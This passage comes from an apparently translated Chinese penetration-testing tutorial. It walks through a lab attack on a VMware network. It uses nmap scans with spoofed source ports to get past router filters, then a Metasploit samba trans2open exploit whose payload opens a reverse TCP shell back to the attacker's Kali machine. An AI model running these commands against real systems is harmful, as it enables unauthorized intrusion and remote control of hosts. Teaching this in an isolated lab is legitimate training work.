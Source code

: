 一旦机器启动，我们需要确定 DHCP 服务器分配的 IP 地址。我们可以通过扫描 VMnet2 子网来实现这一点。

在 Kali 机器的终端窗口中输入`nmap –g 20 –sP 10.2.0.100-200`，对 VMnet2 网络进行 ping 扫描。我们有权知道 DHCP 服务器的起始和结束 IP 范围，因此我们将在这里使用它来加速扫描。扫描示例如以下屏幕截图所示：

![Tricks to penetrate filters](img/477-1_07-60.jpg)

我们看到我们的结果中有三个目标，我们知道 132 机器是 OWASP，135 机器是我们的 Kali 机器；因此，我们感兴趣的目标是 140 机器。这同样是可能的，因为路由器上的弱过滤器配置。一旦我们找到了解决方法，我们将继续使用它。我们需要知道目标上正在运行哪些服务，因此输入`nmap –g 80 –sV 10.2.0.140`以显示目标上的服务信息。我们知道此目标计算机不是 Windows 计算机，但我们在目标计算机上打开了类似 Windows 的端口。

既然如此，我们可以得出结论，samba 正在机器上运行。存在多个 samba 漏洞；我们可以对它们进行研究，看看我们是否成功。

我们介绍了许多查找漏洞的技术，我们将通过查看一些可用的 samba 漏洞来为您省去一些麻烦。如果您输入`msfconsole`来启动 metasploit 工具，则需要一些时间才能启动程序，一旦启动，我们希望使用出色的搜索功能；输入`search samba`。以下屏幕截图显示了部分结果的示例：

![Tricks to penetrate filters](img/477-1_07-61.jpg)

正如前面的截图所示，我们有许多可用的漏洞利用；我们想选择那些评级为“好”或“更好”的，因为这将提供最大的成功机会。尽管如此，没有成功的保证，但这是剥削的现实。那么，你选哪一个？好的，我们已经讨论了研究的概念，这就是你如何找到最适合你的方法。我们会为你节省时间；在 metasploit 窗口中输入以下内容：

```
use exploit/linux/samba/trans2open
set RHOST 10.2.0.140
set payload linux/x86/shell/reverse_tcp
set LHOST 10.2.0.135
set LPORT 123
exploit

```
